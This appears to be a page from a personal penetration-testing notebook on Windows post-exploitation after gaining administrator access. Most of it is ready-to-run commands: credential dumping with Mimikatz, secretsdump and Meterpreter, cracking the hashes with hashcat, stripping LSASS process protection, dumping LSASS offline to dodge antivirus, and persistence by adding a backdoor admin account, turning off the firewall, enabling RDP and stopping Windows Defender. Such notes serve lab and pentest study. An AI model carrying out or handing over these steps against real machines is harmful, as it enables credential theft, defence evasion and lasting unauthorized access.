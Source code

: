 # 💀 Elevated Post Exploitation

This guide will ensure that you establish better persistence onto systems. It is also a very linear guide, which means that from top-to-bottom these are good practices to enable. Also these modules are <mark style="color:red;">AFTER ACHIEVING ADMINISTRATOR ACCESS.</mark>

<figure><img src="https://i.gifer.com/5GoS.gif" alt=""><figcaption></figcaption></figure>

## Dumping Hashes

After Administrator access on a Windows computer we can proceed to dump hashes to open up the network to further attacks.&#x20;

Resources: [https://www.ired.team/offensive-security/credential-access-and-credential-dumping](https://www.ired.team/offensive-security/credential-access-and-credential-dumping)

### Method 1: Mimikatz

Run the following commands to dump hashes.

```
privilege::debug we should get an ok
sekurlsa::logonpasswords  
lsadump::sam /patch
lsadump::lsa /patch
lsadump::cache
```

### Method 2: SecretsDump.py

#### Valid Administrator Credentials&#x20;

With valid administrator credentials we could simply execute the following command:&#x20;

```
python3 secretsdump.py <domain.name>/<user>:<password>@<ip> 
python3 secretsdump.py <domain.name>/<user>@ip -hashes <ntlm:ntlm>
```

#### SAM / SYSTEM / SECURITY Hives

We can use the following hives as well to dump the hashes locally. This only requires the transfer of the SYSTEM, SAM, and SECURITY files onto our local machine. We could use whatever file transfer method is the most available to us.

```
reg.exe save hklm\system c:\Users\Administrator\system
reg.exe save hklm\security c:\Users\Administrator\security
reg.exe save hklm\sam c:\Users\Administrator\sam

Transfer them to our attacking machine.

secretsdump.py  -sam sam -system system -security security LOCAL
```

<figure><img src="../.gitbook/assets/secrets-dump.jpg" alt=""><figcaption></figcaption></figure>

### Method 3: Meterpreter

Use the following modules

```
hashdump
use post/windows/gather/cachedump
```

### Cracking NTLMv1 Hashes

![](<../.gitbook/assets/image (9).png>)

`hashcat -m 1000 <hash> rockyou.txt`   &#x20;

![From the THM Room: Post Exploitation Basics](https://i.imgur.com/ihEcxFA.png)

### Cracking Cached Domain Credentials

{% embed url="https://2603957456-files.gitbook.io/~/files/v0/b/gitbook-legacy-files/o/assets%2F-LFEMnER3fywgFHoroYn%2F-LXiqMaCZWYwc9ecjwTb%2F-LXiw1AAfqtOk23kXPEE%2FScreenshot%20from%202019-02-02%2015-57-28.png?alt=media&token=e52bc60c-8c95-4a9d-8bb9-2bac2ec71b98" %}

To crack using hashcat we must put in the following format:&#x20;

```
$DCC2$10240#username#hash
```

Meterpreter's cachedump module's output cannot be used in hashcat directly, but it's easy to do it.

```
echo ; cat hashes.txt ; echo ; cut -d ":" -f 2 hashes.txt
```

![](<../.gitbook/assets/image (1).png>)

```
hashcat -m2100 '$DCC2$10240#spot#3407de6ff2f044ab21711a394d85f3b8' /usr/share/wordlists/rockyou.txt --force --potfile-disable
```

## Bypassing LSAS Protections&#x20;

### Description

Windows made a protection to protect the dumping of hashes in LSASS, this one is a process that is called PPL, which stands for Protected Processes Light. Basically services run with different integrity levels, therefore we are not able to mess around with processes that have different higher integrity levels that we can touch. &#x20;

#### Error

```
mimikatz # sekurlsa::logonpasswords
ERROR .... Handle on mmory (0x000000005)
```

### Bypassing PPL

Since PPL is controlled by a kernel process. We can bypass this by writing in kernel level. We will be doing this by making use of the Admin privilege called SeLoadDriver Privilege.&#x20;

#### Bypass

```
mimikatz # !+ # loads drivers
mimikatz # !processprotect /process:lsass.exe /remove #Disables PPL protection 
```

## Offline Memory Dumps

There will be times that mimikatz will get picked up.  We should first try to disable windows defender but lets say an anti virus keeps up with that bullshit we can dump the hashes offline. We will basically be doing more of what we did up there and transfer the a hive of the lsass process.&#x20;

![](<../.gitbook/assets/image (4).png>)

![](<../.gitbook/assets/image (17).png>)

Transfer DMP file to our attacking windows machine.&#x20;

```
mimikatz # sekurlsa:minidump lsass.dmp
sekurlsa::logonpasswords
```

### Do the same for other processes who you have access to. This could hint to disablign certain things and other shit.&#x20;

## Persistence&#x20;

### Adding Administrator Users

```
net user lyethar pass123 /add
net localgroup Administrators lyethar /add
```

Then we can use psexec to log in.

### Disable Firewall

```
NetSh Advfirewall set allprofiles state off
```

### Enable RDP

```
reg add "HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Control\Terminal Server" /v fDenyTSConnections /t REG_DWORD /d 0 /f
netsh advfirewall firewall set rule group="remote desktop" new enable=Yes
```

### Disabling Windows Defender

<pre><code>Run the following command to disable Windows Defender:

    sc stop WinDefend

To make sure that Windows Defender is stopped, run this command:

    sc query WinDefend

To enable Windows defender again, run the following command:

<strong>    sc start WinDefend
</strong></code></pre>
